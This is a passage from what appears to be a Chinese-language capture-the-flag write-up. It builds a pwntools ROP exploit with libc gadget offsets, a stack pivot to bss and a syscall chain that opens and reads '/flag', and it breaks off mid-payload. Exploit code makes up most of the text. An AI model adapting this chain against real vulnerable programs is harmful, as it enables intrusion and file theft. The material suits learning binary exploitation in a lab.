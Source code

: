 3. 取得 libc 的 base 後去找 gadget (libc_gadget, libc.s)，

    ```python
    #remote
    #0x0000000000045eb0 : pop rax ; ret
    pop_rax_offset = 0x0000000000045eb0
    #0x000000000002a3e5 : pop rdi ; ret
    pop_rdi_offset = 0x000000000002a3e5
    #0x000000000002be51 : pop rsi ; ret
    pop_rsi_offset = 0x000000000002be51
    #0x00000000000904a9 : pop rdx ; pop rbx ; ret
    pop_rdx_rbx_offset = 0x00000000000904a9
    #   91316:	0f 05                	syscall 
    #   91318:	c3                   	ret 
    syscall_offset = 0x91316
    pop_rax = libc_base + pop_rax_offset
    pop_rdi = libc_base + pop_rdi_offset
    pop_rsi = libc_base + pop_rsi_offset
    pop_rdx_rbx = libc_base + pop_rdx_rbx_offset
    syscall = libc_base + syscall_offset
    ```

4. 然後就可以開始 rop chain，首先要先移駕 bss，沒有 canary，而 return address 前一個位置即是 leave 時 rbp 後跳到的地方。
    ```python
    payload = b'A' * (8 * 14)
    rop = flat([bss,
                read])
    payload += rop
    r.send(payload.ljust(0x100, b'\x00'))
    print("send payload")
    r.recvuntil(b"You get nothing QQ")
    ```

5. 然再次回來 read，給 open 的 syscall，其中前面堆 overflow 的部分偷塞 'flag'。
    ```python
    payload = b'/flag'.ljust(8*14, b'\x00')
    rop = flat([bss+0x200,
                pop_rax, 0x2,
                pop_rdi, 0x404590,
                pop_rsi, 0,
                pop_rdx_rbx, 0, 0,
                syscall,
                read])
    payload += rop
    r.send(payload.ljust(0x100, b'A'))
    print("send payload")
    r.recvuntil(b"You get nothing QQ")
    ```

6. 然後 read，這邊這次終於成功了，之前原本這樣跳的時候都會 crash (lab, hw)，但都有一些其他技巧可以不要跳這步，所以沒去處理 (像 read size 調大，或開 shell 等，原本這次也嘗試去找 mov edx, 來調 size) ，最後終於發現原因是 call read 之類的 func stack 長出去會蓋到一些 stack，會用到一些我們寫在上面的值，而跳到奇怪的地方，或產生迴圈。因此 bss 的選擇其實也有技巧。
    ```python
    payload = b'A' * (8 * 14)
    rop = flat([bss,
                pop_rax, 0x0,
                pop_rdi, 3,
                pop_rsi, bss - 0x200,
                pop_rdx_rbx, 0x100, 0,
                syscall,
                read])
    payload += rop